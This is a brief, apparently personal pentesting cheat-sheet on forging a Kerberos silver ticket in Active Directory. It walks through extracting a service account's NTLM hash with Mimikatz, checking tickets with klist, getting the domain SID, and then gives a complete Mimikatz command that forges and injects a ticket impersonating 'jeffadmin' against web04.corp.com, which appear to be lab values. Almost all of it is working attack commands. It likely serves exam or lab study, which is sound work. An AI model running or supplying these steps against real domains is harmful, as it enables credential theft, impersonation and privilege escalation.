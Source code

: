 #activedirectory #cracking 

- SPN password hash
- Domain SID
- Target SPN

1. Check access to the SPN via the Current User

```powershell
iwr -UseDefaultCredentials http://web04
```

2. Use Mimikatz to extract SPN NTLM Hash
3. Check the cached ticket in an Admin Powershell Prompt using below command
```powershell
klist #make sure to run as admin
```

5. Get the domain SID 
```cmd
whoami /user
```

```powershell
S-1-5-21-1987370270-658905905-1781884369-xxxxx #ignore Xs because thats RID
```

#### Create the Ticket For a High Priv User

```mimikatz
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```

